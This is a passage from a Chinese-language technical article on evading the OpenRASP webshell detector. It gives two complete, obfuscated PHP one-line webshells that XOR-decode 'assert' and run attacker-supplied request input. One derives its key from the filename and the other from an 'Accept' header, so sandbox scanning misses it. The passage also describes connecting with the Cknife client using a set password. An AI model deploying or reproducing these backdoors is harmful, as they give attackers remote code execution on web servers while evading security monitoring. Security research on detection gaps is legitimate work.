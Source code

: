 就如下图所示，会被查杀：

![OpenRASP在线查杀](failed-2.png)

将脚本命名为[array_intersect_uassoc-r.php](https://github.com/LandGrey/webshell-detect-bypass/blob/master/webshell/php/array_intersect_uassoc-filename-last-char-must-be-r.php), 硬编码脚本最后一位字符为"r"，就不会被平台检测到，证明了我们原始的想法和对平台检测原理的部分推测:

```php
<?php
$password = "LandGrey";
$key = substr(__FILE__,-5,-4);
${"LandGrey"} =  $key."Land!";
$f = pack("H*", "13"."3f120b1655") ^ $LandGrey;
array_intersect_uassoc (array($_REQUEST[$password] => ""), array(1), $f);
?>
```

2. #### 利用检测平台的信息缺失

接着猜想：当脚本在沙盒中运行时，如果得不到可以让脚本正常执行的关键信息，平台就无法查杀Webshell；而我们连接时，带上关键信息，就可以正常使用一句话木马后门，从而绕过查杀。

例如，利用下面的一句话[array_intersect_uassoc-headers-accept-r.php](https://github.com/LandGrey/webshell-detect-bypass/blob/master/webshell/php/array_intersect_uassoc-headers-accept-r.php)，请求时，Cknife携带请求头`Accept: r`，密码输入"LandGrey"，即可成功连接一句话木马：

![Cknife](success-6.png)

```php
<?php
$password = "LandGrey";
$key = substr(__FILE__,-5,-4);
${"LandGrey"} = $_SERVER["HTTP_ACCEPT"]."Land!";
$f = pack("H*", "13"."3f120b1655") ^ $LandGrey;
array_intersect_uassoc(array($_REQUEST[$password] => ""), array(1), $f);
?>
```

